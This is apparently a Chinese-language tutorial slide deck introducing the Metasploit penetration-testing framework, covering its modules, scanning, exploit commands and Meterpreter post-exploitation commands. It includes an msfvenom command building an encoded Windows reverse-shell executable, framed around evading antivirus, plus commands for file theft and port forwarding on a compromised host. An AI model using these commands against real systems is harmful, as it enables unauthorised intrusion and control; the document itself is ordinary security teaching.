





# 初识metasploit渗透测试框架
---
# 目录
- 一、metasploit简介
- 二、metasploit功能
- 三、metasploit的使用

---
# 一、metasploit简介
## 什么是matesploit
```
The world’s most used penetration testing framework.

Metasploit
```
世界上使用最多的渗透测试框架
metasploit


---
#### Metasploit基本遵循PTES渗透测试标准。它将渗透分解如下：
- 创建项目
- 发现设备
- 获取对主机的访问权限
- 控制会话
- 从目标主机收集证据
- 会话清除
- 生成报告（需pro版本）
[渗透测试标准](https://micro8.gitbook.io/micro8/contents-1/31-40/31msf-de-qian-sheng-jin-shi#er-ptest-shen-tou-ce-shi-biao-zhun-ru-xia)


---
# 一、metasploit简介

## Metasploit-pro&free的区别

|  free   | pro  |
|  ----  | ----  |
| 命令行  | GUI |
| 手动    | 自动 |
| AV| AntiAV |

- auto click 输入一些端口和ip自动测试，所有的exploit帮你测试check，自动化的攻击过去，把shell反弹回来。

- 反病毒软件，反病毒的免杀
---


## Metasploit-pro&free的区别
[compare features](https://www.rapid7.com/products/metasploit/download/editions/)


---


---


---

# 二、 Metasploit功能
[metasploit帮助](https://metasploit.help.rapid7.com/docs/discovery-scan)
- 探测发现（端口、服务、漏洞）
- 漏洞验证
- 漏洞攻击
- 漏洞载荷：payload
- 编码混淆：载荷的混淆过一些杀毒软件
- 等等等等
---
# 三、Metasploit的使用
## metaploit初体验  
  [运行metaploit]( https://b1ue.cn/archives/87.html )

  [ metasploitframework/metasploit-framework ]( https://hub.docker.com/r/metasploitframework/metasploit-framework )

  `sudo docker pull metasploitframework/metasploit-framework`
     
  `sudo  docker run --rm -it -p 443:443 -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data metasploitframework/metasploit-framework`
  容器内的metasploit-framework的位置：/usr/src/metasploit-framework
**kali上更新metasploit：**
  - `msfupdate`
  - `apt update;apt install metasploit-framework`

---
# 三、Metasploit的使用
## msfconsole
msfconsole可能是Metasploit框架(MSF)最流行的接口。它提供了一个集所有功能于一身的集中控制台，并允许您高效地访问MSF中几乎所有可用的选项。
### 使用msfconsole的优点
- 这是访问Metasploit中大多数功能的唯一受支持的方法。
- 提供框架基于控制台的界面
- 包含最多的功能，并且是最稳定的MSF界面
- 全面的readline支持，制表符补全命令
- 可以在msfconsole中执行外部命令
     
---
# 三、Metasploit的使用

## metasploit文件结构
metasploit在kali的位置：`/usr/share/metasploit-framework/modules/exploits/`
- config －－metasploit的环境配置信息，数据库配置信息
- data --存放meterpreter（攻击载荷），exploits（cve漏洞代码），wordlists（字典文档）等。

- **modules**--metasploit的系统工具模块，是metasploit的**核心模块**，包括**预辅助模块（auxiliary）**，**渗透模块(exploits)**, **攻击荷载(payloads)**和后渗透模块(posts)，以及空字段模块(nops)和编码模块(Encoders)

---
- tools－－额外的小工具和第三方脚本工具
- scripts--存放一些msf用到的脚本文档，有这几个meterpreter，ps，resource，shell
- **msfvenom**-- 集成了msfpayload和msfencode的功能，效率更高，即将替代msf payload和msfencode


---
# 三、Metasploit的使用

## 辅助模块（auxiliary）

辅助扫描工具
- 查询所有的辅助模块：search auxiliary 
- 使用模块：use scanner/smb/smb_version
- 显示基础信息：show info
- 显示基础选项：show options
- 设置目标主机ip，可以是CIRD的格式：set RHOSTS 192.168.56.0/24
- 设置扫描的线程数：set THREADS 20
- 显示详细信息：set VERBOSE true

---
### 关于端口扫描
可以使用namp工具扫描
- nmap -v -sV 192.168.56.0/24 -oA subnet_1
把扫描结果导入数据库
- db_import subnet_1.xml
- hosts:查看导入结果  
**把nmap的扫描结果直接存放在msfdb中**
- db_nmap -v -sV 192.168.56.0/24

---
# 三、Metasploit的使用
## 渗透模块(exploits)

- 查看漏洞攻击模块：show exploits
- 根据漏洞编号查相应模块：search cve-xx
- 根据模块名字关键字查询模块：search ms17_010
- 使用模块：use 查询出的序号/模块名字 
- 查看信息：show info/options/advanced/evasion      
- 查看可攻击主机：show targets
- 设置目标主机ip：set RHOSTS 192.168.56.108
- 设置目标主机端口：set RPORT 4444
- 开始利用：run/exploit

---
  

---



---

# 三、Metasploit的使用
## payload模块(payloads)
- show payloads:查看相应的模块可使用的所有的payloads


### msfvenom生成木马文件

- 专门用来做监听的模块：multi/handler
  `use multi/handler`

--- 
# 三、Metasploit的使用

## msfvenom生成木马文件

- msfvenom -p  <playload >  <playload options> -f <format> -o <path>

```
msfvenom -a x86 --platform Windows \
-p windows/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=4444 \
-e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o  /root/Desktop/payload.exe
```

---
### msfvenoms参数
- -p –payload < payload> 指定需要使用的payload(攻击荷载)。也可以使用自定义payload
- -f, –format < format> 指定输出格式 (使用 –help-formats 来获取msf支持的输出格式列表)
  - msfvenom  --list formats
- -e, –encoder [encoder] 指定需要使用的encoder（编码器）,指定需要使用的编码，如果既没用-e选项也没用-b选项，则输出raw payload
  -  msfvenom --list encoder查看所有的编码器
- -a, –arch < architecture> 指定payload的目标架构，例如x86 | x64 | x86_64
- –platform < platform> 指定payload的目标平台
- -i, –iterations < count> 指定payload的编码次数
- -b, –bad-chars < list> 设定规避字符集，指定需要过滤的坏字符例如：不使用 '\x0f'、'\x00';
- -o, –out < path> 指定创建好的payload的存放位置

---
# 三、Metasploit的使用
## Meterpreter
Metasploitv4之后的新版本中，Meterpreter作为后渗透攻击模块的实施通道，可以根据渗透测试目标需求进行灵活扩展。

涉及范围： 信息搜集、口令攫取、权限提升、内网拓展等。

---

## 优点

1、平台通用性 提供了各种主流操作系统和平台上的meterpreter版本，包括windows、linux、BSD，并同时支持x86和x64平台。另外还提供基于java和php语言的实现，以应对各种不同环境。

2、纯内存工作模式 工作时直接装载meterpreter的动态链接库到目标进程空间，而不是先上传到磁盘，再调用loadlibrary加载动态链接库启动。这样启动隐蔽，很难被杀毒软件检测到，也不会再目标主机磁盘留下任何痕迹。

3、灵活且加密的通信协议 采用TLV（type length value）数据封装格式；通信数据经过XOR加密，然后调用OpenSSL库进行SSL封装传输，保证传输的保密和隐蔽性。

4、易于扩展 Meterpreter的插件以动态链接库文件的形式存在，可以选择你喜欢的编程语言按照Meterpreter的接口形式编写你需要的功能，然后编译成动态链接库，拷贝至相应目录即可。

---
### 常用命令
1、基本命令（包含meterpreter和msf终端、ruby接-口、目标shell交互的命令）

- background（进程隐藏至后台）

- sessions（查看已经成功获取的会话，-i 恢复会话）

- quit（关闭当前会话）

- shell （获取系统控制台shell，如果目标系统命令行可执行程序不存在或禁止访问， 则shell命令会出错）

- irb（与Ruby终端交互，调用metasploit封装好的函数；在irb中还可以添加metasploit附加组件railgun，直接与windows本地API进行交互）

---
2、文件系统命令（与目标文件系统交互，包括查看、上传下载、搜索、编辑）

- cat（目标系统文件交互）

- getwd（获取目标机当前工作目录,getlwd本地当前工作工作目录）

- upload（上传文件或文件夹到目标机 -r 递归） `upload  Desktop C:\\Users\\zzx\\Desktop`


- download（从目标机下载文件或文件夹 -r 递归）

- edit（调用vi编辑器，对目标上的文件进行编辑）

- search（对目标机的文件进行搜索）

---
3、网络命令（查看目标网络状况、连接信息，进行端口转发等）

- ipconfig（获取目标主机上的网络接口信息）

- portfwd（端口转发：将目标主机开放但不允许访问的端口进行转发）

- route（显示目标主机路由信息）

---
4、系统命令（查看目标系统信息、对系统进行基本操作等）

- ps（查看目标机正在运行的进程信息）

- migrate（将meterpreter会话进程迁移到另一个进程内存空间）

- execute（在目标机上执行文件）

- getpid（当前会话所在进程的pid值）

- kill（终结指定的pid程序）

- getuid（获取当前会话用户名）

- sysinfo（获取系统信息）

- shutdown（关闭目标主机）

---


## 问题
使用metasploit官方提供的在Linux安装方法出现错误：
命令：`curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall &&   chmod 755 msfinstall &&   ./msfinstall`

错误提示：`curl: (35) OpenSSL SSL_connect: SSL_ERROR_SYSCALL in connection to raw.githubusercontent.com:443`
Ubuntu虚拟机的公钥已经上传到GitHub上了

---


# 参考
[免杀msf windowspayload的方法](https://s.yl0.org/2017/12/22/%E5%85%8D%E6%9D%80%20MSF%20Windows%20Payload%20%E7%9A%84%E6%96%B9%E6%B3%95%E4%B8%8E%E5%AE%9E%E8%B7%B5.html)
[模块构成](http://bobao.360.cn/learning/detail/201.html)
[端口扫描的类型](https://blog.csdn.net/tuantuanlin/article/details/17422705)
[代理](https://blog.csdn.net/littlehaes/article/details/103145230)
[metaploit基础信息](https://blog.csdn.net/jiangliuzheng/article/details/50546783)
[远控免杀入门到实践](https://news.linruizhao.com/tech/freebuf/179721/)
[远控免杀专题文章(2)-msfvenom隐藏的参数](https://mp.weixin.qq.com/s/1r0iakLpnLrjCrOp2gT10w)
[权限不够的问题](https://github.com/rapid7/metasploit-framework/issues/11115)
[msfvenom使用简介](https://www.freebuf.com/sectool/72135.html)
[metasploit端口扫描](https://zhuanlan.zhihu.com/p/30372407)